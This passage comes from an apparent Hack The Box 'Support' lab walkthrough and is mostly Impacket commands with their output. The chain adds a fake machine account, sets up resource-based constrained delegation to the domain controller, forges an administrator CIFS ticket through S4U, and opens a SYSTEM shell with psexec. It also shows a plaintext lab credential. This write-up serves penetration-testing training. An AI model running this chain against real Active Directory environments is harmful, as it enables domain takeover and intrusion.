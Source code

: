```bash
impacket-addcomputer -dc-ip 10.10.11.174 -computer-name 'FAKECOMP$' -computer-pass 'Password123!' 'support.htb/support:Ironside47pleasure40Watchful'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account FAKECOMP$ with password Password123!.
```

#### impacket-rbcd

Delegating:

```bash
impacket-rbcd 'support.htb/support:Ironside47pleasure40Watchful' -dc-ip 10.10.11.174 -delegate-to 'DC$' -delegate-from 'FAKECOMP$' -action 'write'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FAKECOMP$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     FAKECOMP$    (S-1-5-21-1677581083-3380853377-188903654-5601)
```

#### impacket-getST

Let's get the Service Ticket, we will impersonate administrator:

```bash
impacket-getST 'support.htb/FAKECOMP$:Password123!' -spn cifs/dc.support.htb -impersonate administrator -dc-ip 10.10.11.174

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

### PSExec

Now let's export the ticket and PSExec:

```bash
export KRB5CCNAME=administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache   
                                                                                                                                                                          
┌──(venv)─(kali㉿vm-kali)-[~/htb/support/pywhisker/pywhisker]
└─$ impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file rNziyHCb.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service twAG on dc.support.htb.....
[*] Starting service twAG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```
